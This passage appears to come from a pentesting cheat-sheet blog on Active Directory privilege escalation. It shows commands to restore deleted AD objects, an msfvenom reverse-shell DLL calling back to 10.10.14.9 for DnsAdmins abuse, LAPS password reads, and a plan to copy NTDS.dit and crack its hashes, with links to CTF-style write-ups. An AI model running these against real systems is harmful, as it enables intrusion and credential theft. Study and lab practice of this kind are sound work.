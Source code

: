 ````powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects # Filter for deleted objects
Get-ADObject -Filter 'SAMAccountName -eq "User"' -IncludeDeletedObjects -Properties * # Filter for users
Get-ADObject -ldapfilter "(&(ObjectClass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
Restore-ADObject -Identity <ObjectGUID> # Restore objects
````

#### Dns-Admins
---
 **DnsAdmins** group consists of users who have special permissions to manage and configure DNS settings on a Windows machine. Members of this group typically have the ability to create, modify, and delete DNS records in Active Directory-integrated zones. By default, this group does not have permission to start or stop the DNS service, but administrators can assign additional privileges to members, which may include the ability to control the DNS service.

We create our malicious plugin using msfvenom

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f dll -o whare.dll
````

Next steps explianed <a href="https://whare1.github.io/posts/Resolute-Writeup/#abusing-dnsadmins-group" target="_blank">on resolute writeup</a>

#### LAPS_Readers
---
**LAPS_Readers** is a built-in group in Active Directory, specifically for **Local Administrator Password Solution (LAPS)**. Members of this group have **read-only access** to the local administrator passwords of managed machines in the domain. These passwords are automatically generated and stored securely in Active Directory by LAPS.

In short, **LAPS_Readers** allows members to **view** the local administrator passwords, but not to modify or manage them.

````powershell
Get-ADComputer -Filter * | Select-Object Name
Get-ADComputer -Identity "DC01" -Properties ms-Mcs-AdmPwd
````

#### Backup Operators
---
The Backup Operators group is a built-in group in Windows that grants its members the ability to back up and restore files on the system, even if they do not have direct access to those files. Members of this group have elevated privileges, but they are often overlooked when it comes to privilege escalation, as they can access sensitive files such as the NTDS.dit file, which contains the Active Directory database, including user credentials and hashes.

Our goal is to leverage our membership in the Backup Operators group to try to copy the NTDS.dit file. Once we have a copy of the file, we can extract and crack the hashes stored inside it to potentially gain access to other user accounts or escalate our privileges further.

Guide step by step <a href="https://whare1.github.io/posts/Blackfield-Writeup/#privilege-escalation" target="_blank">here</a>

![netrunner](/assets/images/netrunner.gif)